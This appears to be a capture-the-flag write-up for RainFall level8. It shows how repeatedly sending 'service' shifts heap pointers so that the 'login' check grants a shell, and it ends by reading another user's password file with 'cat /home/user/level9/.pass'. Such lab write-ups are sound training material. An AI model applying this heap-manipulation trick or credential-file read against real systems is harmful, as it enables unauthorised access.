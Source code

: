 We can see on [dogbolt](https://dogbolt.org/), the program ``level8`` as cut in three part : <br>
``'auth '``, ``service`` and ``login`` and we are intrested by ``login`` because there are the function system('/bin/sh')

we can notice, the condition for acceed to /bin/sh are the pointer auth + 0x20 are not null
and we can see also ``'auth '`` initialize auth

and we test the program who print any command auth pointer and service pointer 
```bash
level8@RainFall:~$ ./level8 
> (nil), (nil) 
auth 
> 0x804a008, (nil) 
service
> 0x804a008, 0x804a018
login
Password:
> 0x804a008, 0x804a018
auth 
> 0x804a018, 0x804a018
service
> 0x804a018, 0x804a028
```

we deducted in the repeat of condition the service or auth pointer increment to 0x10 also we need to have 
``pointer, pointer+0x20``

```bash
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth 
0x804a008, (nil) 
service
0x804a008, 0x804a018 
service
0x804a008, 0x804a028 
login
$
$ cat /home/user/level9/.pass
```